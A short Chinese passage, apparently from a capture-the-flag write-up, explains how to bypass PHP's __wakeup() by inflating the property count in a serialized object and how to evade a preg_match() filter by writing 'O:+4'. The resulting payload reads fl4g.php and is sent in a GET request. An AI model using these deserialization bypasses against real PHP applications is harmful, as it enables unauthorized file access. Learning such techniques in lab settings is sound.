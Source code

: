 加了绕过语句后的序列化：

```
$var = str_replace(':1:', ':2:',$var);//绕过wakeup
var_dump($var);//string(49) "O:4:"Demo":2:{s:10:"Demofile";s:8:"fl4g.php";}"
```

preg_match()可用正则绕过，把O：4变成O：+4。语句如下：

```
$var = str_replace('O:4', 'O:+4',$var);//绕过preg_match
```

在替换前记得加入序列化的代码，使原字符先序列化。然后再执行代码拿到序列化后的字符串，放到get包里边即可。







